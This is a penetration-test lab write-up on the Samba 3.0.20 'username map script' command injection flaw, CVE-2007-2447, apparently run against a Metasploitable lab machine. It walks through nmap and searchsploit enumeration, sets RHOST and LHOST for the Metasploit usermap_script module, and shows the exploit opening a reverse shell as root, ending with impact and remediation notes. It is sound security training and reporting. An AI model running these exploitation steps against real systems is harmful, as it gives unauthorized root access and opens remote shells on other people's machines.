




# Finding 2: Samba 3.0.20-Debian — Username Map Script Command Injection

| | |
|---|---|
| **Service** | SMB/NetBIOS (Ports 139, 445) |
| **Version** | Samba 3.0.20-Debian |
| **CVE** | CVE-2007-2447 |
| **CWE** | CWE-78 (OS Command Injection) |
| **Severity** | Critical |
| **CVSS (approx.)** | 10.0 (Critical) — unauthenticated remote code execution as root |

---

## 1. Methodology

**Step 1 — Confirm connectivity to the target**

```
ping -c 4 192.168.56.102
```

Verified the target (`192.168.56.102`) was reachable from the attacker machine (`192.168.56.101`) with 0% packet loss.



**Step 2 — Full service/version enumeration**

```
nmap -sV -sC 192.168.56.102
```

A full scan identified multiple open services. Deeper into the scan output, Nmap's SMB detection scripts confirmed:
- **OS:** Unix (Samba 3.0.20-Debian)
- **Computer name:** metasploitable
- **Security mode:** `account_used: <blank>` (null/anonymous session allowed), `message_signing: disabled`



**Step 3 — Research the vulnerability**

```
searchsploit samba 3.0.20
```

Results confirmed a known Metasploit-integrated exploit:
```
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  |  unix/remote/16320.rb
```

Since the title explicitly notes "(Metasploit)", the corresponding internal Metasploit module was located via:
```
msfconsole
search type:exploit samba
```
This returned:
```
exploit/multi/samba/usermap_script    2007-05-14   excellent   Samba "username map script" Command Execution
```
Disclosure date (2007-05-14) matches CVE-2007-2447, confirming this is the correct module for the identified version.



---

## 2. Exploitation

**Step 1 — Load the module and configure options**

```
use exploit/multi/samba/usermap_script
set RHOST 192.168.56.102
set LHOST 192.168.56.101
```

**Step 2 — Run the exploit**

```
exploit
```

The `usermap_script` misconfiguration allows a specially crafted username (containing shell metacharacters) sent during SMB authentication to be passed directly to a shell and executed — resulting in unauthenticated command injection.

```
[*] Started reverse TCP handler on 192.168.56.101:4444
[*] Command shell session 1 opened (192.168.56.101:4444 → 192.168.56.102:56573)
```

**Step 3 — Verify access level**

```
whoami
root

id
uid=0(root) gid=0(root)
```

This confirms **unauthenticated remote root access** was achieved.



---

## 3. Impact

- **Full compromise** of the target system with root privileges via a single misconfigured SMB option
- Attacker can read/modify/delete any file, create new user accounts, pivot to other systems on the network, or install persistent malware
- No valid credentials or user interaction required — exploitable by any unauthenticated remote attacker
- Root cause is a configuration flaw (`username map script` directive combined with unsanitized input), not a memory-corruption bug — making it reliable and stable to exploit

---

## 4. Remediation

- Upgrade Samba to a patched version (3.0.25rc3 or later) where the `username map script` input is properly sanitized
- Remove or disable the `username map script` directive in `smb.conf` unless explicitly required
- Disable anonymous/null SMB sessions (`account_used: <blank>` should not be permitted)
- Enable SMB message signing to reduce the risk of related SMB-layer attacks
- Restrict SMB service exposure (ports 139/445) to trusted internal networks only, and firewall from the public internet
